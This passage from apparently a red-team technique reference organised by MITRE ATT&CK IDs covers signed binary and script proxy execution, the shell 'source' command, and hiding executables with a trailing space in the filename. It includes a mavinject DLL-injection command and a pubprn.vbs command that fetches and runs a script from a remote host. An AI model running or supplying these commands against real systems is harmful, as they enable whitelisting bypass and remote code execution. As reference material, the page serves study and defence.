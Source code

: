 			* `C:\Windows\system32\mavinject.exe <PID> /INJECTRUNNING <PATH DLL>`
	* **SyncAppvPublishingServer.exe**
		* SyncAppvPublishingServer.exe can be used to run powershell scripts without executing powershell.exe.
		* Several others binaries exist that may be used to perform similar behavior.






-------------------------------
## Signed Binary Proxy Execution
* [Signed Script Proxy Execution - ATT&CK](https://attack.mitre.org/wiki/Technique/T1216)
	* Scripts signed with trusted certificates can be used to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.
	* PubPrn.vbs is signed by Microsoft and can be used to proxy execution from a remote site.
		* Example command: `cscript C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png`
		* There are several other signed scripts that may be used in a similar manner.





------------------------------- 
## Source
* [Source - ATT&CK](https://attack.mitre.org/wiki/Technique/T1153)
	* The source command loads functions into the current shell or executes files in the current context. This built-in command can be run in two different ways `source /path/to/filename [arguments]` or . `/path/to/filename [arguments]`. Take note of the space after the ".". Without a space, a new shell is created that runs the program instead of running the program within the current context. This is often used to make certain features or functions available to a shell or to update a specific shell's environment. Adversaries can abuse this functionality to execute programs. The file executed with this technique does not need to be marked executable beforehand.

#### Linux
* [Sourcing a File - tldp](http://www.tldp.org/HOWTO/Bash-Prompt-HOWTO/x237.html)
* [Source command - bash.cyberciti](https://bash.cyberciti.biz/guide/Source_command)



 

-------------------------------
## Spaces after Filename 
* [Spaces after Filename - ATT&CK](https://attack.mitre.org/wiki/Technique/T1151)
	* Adversaries can hide a program's true filetype by changing the extension of a file. With certain file types (specifically this does not work with .app extensions), appending a space to the end of a filename will change how the file is processed by the operating system. For example, if there is a Mach-O executable file called evil.bin, when it is double clicked by a user, it will launch Terminal.app and execute. If this file is renamed to evil.txt, then when double clicked by a user, it will launch with the default text editing application (not executing the binary). However, if the file is renamed to "evil.txt " (note the space at the end), then when double clicked by a user, the true file type is determined by the OS and handled appropriately and the binary will be executed.
